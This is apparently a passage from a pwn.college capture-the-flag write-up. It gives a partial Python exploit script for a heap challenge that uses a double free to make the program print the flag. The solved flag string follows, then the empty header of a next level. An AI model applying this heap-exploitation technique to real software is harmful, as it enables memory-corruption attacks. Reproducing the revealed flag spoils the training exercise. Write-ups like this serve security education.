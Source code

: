 ```python

def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))


def read_flag():
    target.sendlineafter(b": ", b"read_flag")


def puts_flag():
    target.sendlineafter(b": ", b"puts_flag")


def quit():
    target.sendlineafter(b": ", b"quit")


def main():
    launch()

    malloc(0, 496)
    malloc(1, 496)
    free(0)
    free(1)
    read_flag()
    free(1)
    puts_flag()
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{ckg3CON3ru3-ygB82VxLMcRUuBS.0VO3MDL5cTNxgzW}`]

# Level 5.1

## Information

- Category: Pwn

## Description
